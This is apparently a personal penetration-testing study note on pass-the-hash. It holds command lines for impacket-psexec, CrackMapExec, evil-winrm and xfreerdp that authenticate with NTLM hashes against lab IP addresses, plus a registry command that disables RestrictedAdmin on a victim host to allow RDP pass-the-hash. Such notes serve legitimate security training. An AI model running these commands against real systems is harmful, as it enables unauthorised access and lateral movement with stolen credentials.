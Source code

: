 
Impacket
```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```
https://github.com/SecureAuthCorp/impacket

![[Pasted image 20240915153223.png]]

Crackmapexec
```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
https://github.com/byt3bl33d3r/CrackMapExec


evilwinrm
```shell-session
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```
https://github.com/Hackplayers/evil-winrm
![[Pasted image 20240912141139.png]]



Enabling RDP PTH
![[Pasted image 20240915160815.png]]``

On victim machine 
```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

On attacker machine
```shell-session
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```


Extra Notes:
![[Pasted image 20240915161140.png]]